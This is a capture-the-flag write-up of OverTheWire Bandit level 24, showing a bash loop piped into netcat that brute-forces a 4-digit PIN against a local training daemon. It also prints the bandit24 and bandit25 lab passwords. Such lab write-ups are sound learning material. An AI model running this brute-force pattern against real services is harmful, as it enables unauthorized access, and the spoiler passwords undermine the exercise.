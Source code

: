 # Bandit Level 24 → 25
[Here's the link 😄](https://overthewire.org/wargames/bandit/bandit25.html)
## 📝 **Challenge Description**  
The password for `bandit25` is given if the user enters the password for `bandit24` and a secret numeric 4-digit pincode on **localhost:30002**. There is no way to retrieve the pincode except by going through all of the 10000 possible combinations. The level also states that we do not need to create new connections each time we input the password and 4 digit pincode combination.

## 🔍 **What I Initially Tried**  
The only way to solve this level is to create a script that will allow us to pass the password for `bandit24` and allow us to loop through all possible combinations of 4 digit numbers from **0000 to 9999**. Like in other programming languages, we can use a **for loop** to loop through a sequence of objects in this case we are looping through numbers ranging from 0000 to 9999. Then we can save each value along with the password for `bandit24` and pass it into the daemon via `nc`. 

## ✔️ What Worked
Since we do not write permissions in the home directory, I created a temporary directory and saved the script in there:
```bash
mktemp -d
/tmp/tmp.QdMtYOoSfv
vi script.sh
```

For this script, I looped through all values between 0000 and 9999 and piped everything into a `nc` connection:
```bash
#!/bin/bash
{
for i in {0000..9999}
do
    echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"
done
} | nc localhost 30002
```
This allows us to use **one netcat connection** instead of one for each password and pincode combination. Having the `nc` connection setup like this allows us to avoid having to loop through all 10,000 possible combinations of pincodes and passwords and passing them each time into the `nc` connection. That would be inefficient and time consuming.

After I ran the script, eventually the password for `bandit25` was given:
```
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
## 🧠 Key Learnings
- Learned how to write efficient for loops in Bash to **brute-force** 4 digit pincodes and pass them to standard output.
- Learned how to effectively take standard output and pipe it into a `nc` connection as standard input.  



## 🔐 Next Step
Now let's move onto **level 25**. 

➡️ [Continue to Level 25 →](https://github.com/aminuzz/Bandit-CTF-Journey/blob/main/level%2025.md)
